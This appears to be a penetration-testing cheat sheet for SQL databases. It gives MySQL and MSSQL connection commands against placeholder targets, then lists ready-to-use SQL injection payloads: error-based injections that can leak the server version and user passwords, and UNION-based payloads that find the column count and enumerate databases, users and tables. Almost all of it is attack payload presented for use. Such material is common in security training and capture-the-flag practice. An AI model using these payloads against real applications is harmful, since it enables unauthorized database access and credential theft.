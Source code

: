 
##### Note: make sure to check for error messages.
#### Connecting to MySQL
```
mysql -h TARGET_IP -u USERNAME -p   // Remote authentication with username and password
```

```
SELECT @@VERSION;               // Print the SQL version
SELECT system_user();           // Print the current user. Note: this is the database-specific user, it may not be the user of the same name in the system.

SHOW databases;
USE DATABASE_NAME;
SHOW tables;
```


#### MSSQL basics
```
impacket-mssqlclient USER:PASSWORD@IP_ADDRESS -windows-auth
SELECT @@VERSION;

SELECT name FROM master.dbo.sysdatabases               // Show databases
SELECT * FROM TARGET_DB.information_schema.tables;     // Show tables


```


#### Enabled error messages
```
' or 1=1 in (select @@version) -- -                 
' or 1=1 in (SELECT password FROM users) -- -         // might show the passwords in the error message.
```


#### MySQL UNION injection
First, use these payloads ascending until an error occurs:
```
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
```
The last number before the error is the amount of columns in the request. Then, use this payload with the appropriate amount of columns:
```
' UNION SELECT @@version -- -
' UNION SELECT null, @@version -- -
...
' UNION SELECT null, null, database(), user(), @@version  -- -
```
If the payload works, it's time to read the database tables:
```
' union select table_name from information_schema.columns where table_schema=database() -- -
' union select null, table_name from information_schema.columns where table_schema=database() -- -
...
' union select null, null, null, null, table_name from information_schema.columns where table_schema=database() -- -
// options: table_name, column_name, table_schema,
```

If a table is found:
```
	' UNION SELECT null, null FROM TABLE -- 
```
